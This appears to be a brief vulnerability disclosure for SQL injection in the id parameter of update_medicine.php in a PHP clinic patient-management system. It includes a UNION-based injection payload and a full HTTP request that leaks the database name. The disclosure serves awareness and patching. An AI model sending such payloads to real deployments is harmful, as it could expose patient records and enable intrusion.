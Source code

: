 # Clinic's Patient Management System v1.0 by oretnom23 has SQL injection

BUG_Author：JinLongZhou

vendors: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

Vulnerability File: /pms/update_medicine.php?id=

Vulnerability location: /pms/update_medicine.php?id=, id

dbname = pms_db

[+] Payload: /pms/update_medicine.php?id=-2%20union%20select%201,database()--+ // Leak place ---> id

```SQL
GET /pms/update_medicine.php?id=-2%20union%20select%201,database()--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=odknb2obdq1nkaqk7p7u8hvli8
Connection: close
```

![IMG](https://user-images.githubusercontent.com/54017627/177024923-6f9f3a80-d822-4c43-bafd-996b63a13438.png)
